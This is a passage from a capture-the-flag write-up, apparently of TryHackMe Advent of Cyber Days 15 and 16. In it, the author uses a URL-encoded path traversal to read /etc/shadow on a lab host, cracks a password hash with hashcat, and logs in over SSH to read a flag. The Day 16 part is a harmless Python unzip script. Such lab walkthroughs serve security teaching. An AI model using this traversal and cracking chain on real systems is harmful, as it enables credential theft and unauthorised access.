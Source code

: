 ## What is Charlie going to book a holiday to?
http://10.10.21.94/get-file/views%2Fnotes%2Fnote3.txt or just read the page

## Read /etc/shadow and crack Charlies password.
```/etc``` is at the root directory. and we are currently at ```...../get-file/....```. To move back to root terminal we need to do ``cd ..`` multiple times. So my plan is just spam ```..%2F``` like 10 time to make sure that it will end up at the root directory.


this give us ````10.10.21.94/get-file/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow```

now use hashcat
```console
bibo318@parrot:~$ mkdir Day15 && cd Day15
bibo318@parrot:~/Day15$ nano charlie.lst # add the hash
bibo318@parrot:~/Day15$ hashcat -m 1800 -a 0 -o charlie.txt charlie.lst /usr/share/wordlists/rockyou.txt --force
bibo318@parrot:~/Day15$ cat charlie.txt
```
## What is flag1.txt?
just SSH using charlie cerdential and grep the flag1.txt!!
```console
bibo318@parrot:~/Day15$ ssh charlie@10.10.21.94
charlie@ip-10-10-21-94:~$ ls
flag1.txt
charlie@ip-10-10-21-94:~$ cat flag1.txt 
THM{4ea2adf842713ad3ce0c1f05ef12256d}
```

# Day 16 : File Confusion 
```
The Christmas monster got access to some files and made a lot of weird changes. Can you help fix these changes?

Use a (python) script to do the following:
1. extract all the files in the archives 
2. extract metadata from the files 
3. extract text from the files
```
READ [this](https://docs.google.com/document/d/13eYEcqpyp3fIAnaDR8PHz6qibBJJwf2Vp5M77KkEKtw/edit#)

## How many files did you extract(excluding all the .zip files)
```python
""" 
How many files did you extract(excluding all the .zip files)
"""
# get all files
files = os.listdir('./final-final-compressed')
for file in files:
    # now unzip it
    with zipfile.ZipFile('./final-final-compressed/'+file, 'r') as zip_ref:
        zip_ref.extractall('./extracted')
# get all files agains
extracted = os.listdir('./extracted')
print('Extracted %s files' % len(extracted))
```

